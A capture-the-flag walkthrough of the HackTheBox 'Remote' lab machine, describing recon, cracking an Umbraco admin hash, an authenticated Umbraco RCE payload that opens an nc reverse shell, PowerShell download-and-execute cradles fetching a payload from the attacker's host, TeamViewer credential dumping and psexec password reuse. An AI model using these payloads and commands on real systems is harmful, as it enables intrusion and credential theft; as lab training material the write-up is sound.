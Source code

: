 # CTF Writeup: HackTheBox - [Remote](https://www.hackthebox.eu/home/machines/profile/234)

In 2020 (thanks to COVID lockdowns), I started working on HackTheBox challenges. So far I have pwned/rooted 7 machines and it is too much fun! I finally got some time to go through my notes and decided to write this brief walkthrough to the [Remote](https://www.hackthebox.eu/home/machines/profile/234) machine.

This is not going to be a full wript-up with detailed steps, I am just going to skip over to most interesting findings. It goes without saying that there was hours of research between each stage and a lot of learning.

* Starting off with an NMAP Scan:

```
ports=$(sudo nmap -p- --min-rate=1000 -T4 10.10.10.180 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
sudo nmap -sC -sV -p$ports 10.10.10.180
```
We get a huge list of open ports and services:

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-05-31T11:01:30
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.11 seconds

```

* As usual, I went through most of the well known ports to explore the attack surface:
    - Start dirbuster on web applications
    - Start manually browsing the web content
    - Attempt manual connections to ftp and mountd services
    - Fire up msfconsole and run some recon against netbios and rpc

* I hit two interesting leads in the recon:
   - Dirbuster found bunch of content on port 80
   
      ```
      GENERATED WORDS: 4612

      ---- Scanning URL: http://10.10.10.180/ ----
      + http://10.10.10.180/about-us (CODE:200|SIZE:5441)
      + http://10.10.10.180/blog (CODE:200|SIZE:5001)
      + http://10.10.10.180/Blog (CODE:200|SIZE:5001)
      + http://10.10.10.180/contact (CODE:200|SIZE:7880)
      + http://10.10.10.180/Contact (CODE:200|SIZE:7880)
      + http://10.10.10.180/home (CODE:200|SIZE:6703)
      + http://10.10.10.180/Home (CODE:200|SIZE:6703)
      + http://10.10.10.180/install (CODE:302|SIZE:126)
      + http://10.10.10.180/intranet (CODE:200|SIZE:3323)
      + http://10.10.10.180/master (CODE:500|SIZE:3420)
      + http://10.10.10.180/people (CODE:200|SIZE:6739)
      + http://10.10.10.180/People (CODE:200|SIZE:6739)
      + http://10.10.10.180/person (CODE:200|SIZE:2741)
      + http://10.10.10.180/product (CODE:500|SIZE:3420)
      + http://10.10.10.180/products (CODE:200|SIZE:5328)
      + http://10.10.10.180/Products (CODE:200|SIZE:5328)
      + http://10.10.10.180/umbraco (CODE:200|SIZE:4040)
      ```
   - Umbraco is a CMS so I used a [Umbraco discovery wordlist](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content/CMS) and discovered the login page 
   
      ` http://10.10.10.180/umbraco#/login/false?returnPath=%252Fumbraco`
   - Second important discovery:
      - I was able to mount a volume using the mountd service
        `mount 10.10.10.180:/site_backups site_backups/`
      - It contained a directory called `App_data` with file `Umbraco.sdf`
      - A quick google search revelead it's a database file
      - Not sure how to open this file, I just drag and dropped it into my VSCode editor and instantly noticed a plain text string in load of garbage 
        
          `Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}`
      - BAM! There it is, the SHA1 hash for the Umbraco Administrator's password. But how do I crack it?
      - Well, I just googled how to crack SHA1 hash, in top results I see `https://crackstation.net/`, paste the hash into this website, and BAM! `baconandcheese` is the password!
      - Login to the Umbraco CMS as admin
 
* Next step is to somehow get code execution. So I re-visited exploit-db and noticed [Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/46153) exploit. The word authenticated caught my eye and I was quite sure this exploit has to work. Of course, it didn't work.
* After bit of tinkering with the payload, I modified it to obtain a reverse shell using nc back to my kali machine:

```
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "10.10.14.23:4449"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "nc.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> '
```
Got the user flag `type c:\Users\Public\user.txt`
 
* Now for finding privilege escalation to root, I spent too much time looking around the system and finding missing patches, etc but no luck. Hmm, the name of the machine is `remote` so there must be a remote access service that we can exploit. Did some service enumeration and found that TeamViewer is running. That's probably the way in.

* In Metasploit, I noticed `windows/gather/credentials/teamviewer_passwords` module. So I spent the time to now get a proper shell into my msfconsole. I ended up using following commands in my existing reverse shell:
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.25:8000/rshell.exe');"

powershell.exe -command PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidden -command (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.25:8000/rshell.exe',"$env:APPDATA\rshell.exe");Start-Process ("$env:APPDATA\rshell.exe")
```
* Once I had the session in msfconsole, I run the `windows/gather/credentials/teamviewer_passwords` module and BAM!
  ```
  TeamViewer Client ID - 1769137322
  Unattended Password: !R3m0te!
  ```
* Now, I tried many ways to use these credentials to actually connect to the target machine using TeamViewer client but it did not work. I could not figure out what was going on. So I slept over it.
* Next day, I was working and spent most of my day in Zoom meetings with my colleagues. At one point, there were disucssions about a phishing incident and re-using passwords. After tiring day of Zoomming, as I was recollecting my thoughts I realized the risks of **re-using passwords** and how it may be the trick in this HackTheBox challenge. 
* It would be too easy I said to myself, but decided to give it a try anyway. Fired up msfconsole, 
```
use windows/smb/psexec
SMBUSer administrator
SMBPass !R3m0te!
```
and BAM! I could not believe it worked. And as easy as that, we get the root flag!

